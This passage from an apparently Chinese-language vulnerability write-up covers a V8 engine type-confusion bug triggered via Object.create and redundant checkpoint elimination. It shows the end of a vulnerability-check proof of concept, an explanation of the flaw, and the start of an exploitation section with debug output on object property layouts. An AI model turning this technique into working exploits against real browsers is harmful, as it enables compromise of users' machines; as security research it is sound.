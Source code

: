 ```
        if(hax(o) != 0x7777)
            return;
    }
    throw "[-] Not vulnerable"
}

foo()
print("[+] v8 version is vulnerable");
```
简单介绍一下，在hax函数中首先通过o.inline生成第一个checkpoint，之后通过createObject改变o的map类型，但是v8并没意识到它的类型发生改变，之后会在冗余消除中删除掉o.outline的checkpoint，之后按照old map中的偏移来进行访问，导致类型混淆。

### 利用

首先我们先来看看FastProperties和DictionaryProperties两种map类型的区别：
```
let a = {x : 1,y:2,z:3};
a.b = 4;
a.c = 5;
a.d = 6;
%DebugPrint(a);
%SystemBreak();
Object.create(a);
%DebugPrint(a);
%SystemBreak();
```
```
0x31132b18e1e9: [JS_OBJECT_TYPE]
 - map: 0x0bf82a48cb11 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x2e853b0046d9 <Object map = 0xbf82a4822f1>
 - elements: 0x006338502cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x31132b18e389 <PropertyArray[3]> {
    #x: 1 (data field 0)
    #y: 2 (data field 1)
    #z: 3 (data field 2)
    #b: 4 (data field 3) properties[0]
    #c: 5 (data field 4) properties[1]
    #d: 6 (data field 5) properties[2]
 }
$1 = 0

0xbf82a48cb11: [Map]
 - type: JS_OBJECT_TYPE
 - instance size: 48
 - inobject properties: 3
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x0bf82a48cac1 <Map(HOLEY_ELEMENTS)>
 - prototype_validity cell: 0x2e853b006459 <Cell value= 0>
 - instance descriptors (own) #6: 0x31132b18e449 <DescriptorArray[20]>
 - layout descriptor: (nil)
 - prototype: 0x2e853b0046d9 <Object map = 0xbf82a4822f1>
 - constructor: 0x2e853b004711 <JSFunction Object (sfi = 0x1a09a450aba9)>
 - dependent code: 0x006338502391 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
```
此时存在3个inobject properties，对应{x : 1,y:2,z:3}，而之后定义的a、b、c则保存在了properties中。
